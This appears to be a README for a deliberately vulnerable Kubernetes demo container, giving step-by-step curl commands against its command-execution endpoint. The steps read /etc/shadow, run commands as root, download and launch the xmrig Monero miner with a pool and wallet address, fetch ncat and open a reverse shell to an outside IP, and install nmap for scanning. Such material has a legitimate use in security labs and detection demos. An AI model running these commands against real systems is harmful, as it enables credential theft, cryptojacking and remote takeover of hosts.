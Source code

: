 # Prepare test workload
```
 kubectl create deployment playground --image=manuelbcd/security-playground:1.0.6
 kubectl expose deployment playground --port=80 --target-port=8080 --name=playground --type=LoadBalancer
```

# Configure local parameters
```
LOAD_BALANCER_URL=$(kubectl get svc playground -n default -o json | jq -r .status.loadBalancer.ingress[].hostname)
PORT=80
echo "Target: $LOAD_BALANCER_URL:$PORT"
```

# Read the file /etc/shadow
```
curl $LOAD_BALANCER_URL:$PORT/etc/shadow
```

# Get a list of files
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=ls -la'
```

# Get my user (we are root)
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=uname -a'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=whoami'
```

# Istall cryptominer
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=wget -O file.tar.gz https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-linux-static-x64.tar.gz'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=tar -xvf file.tar.gz
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=sleep 1 && nohup ./xmrig-6.16.4/xmrig --donate-level 100 -o xmr-us-east1.nanopool.org:14433 -k -u 422skia35WvF9mVq9Z9oCMRtoEunYQ5kHPvRqpH1rGCv1BzD5dUY4cD8wiCMp4KQEYLAN1BuawbUEJE99SNrTv9N9gf2TWC --tls --coin monero'
```

# Check that cryptominer is installed
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=ps -aux'
```

# Open reverse shell
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=chmod +x ncat'
sleep 1 && nohup curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=./ncat 34.77.63.85 34444 -e /bin/bash' &> /dev/null & nc -lnvp 34444
```

# Install nmap and scan hostts
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=apt-get update; apt-get -y install nmap'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=nmap -v scanme.nmap.org'
```





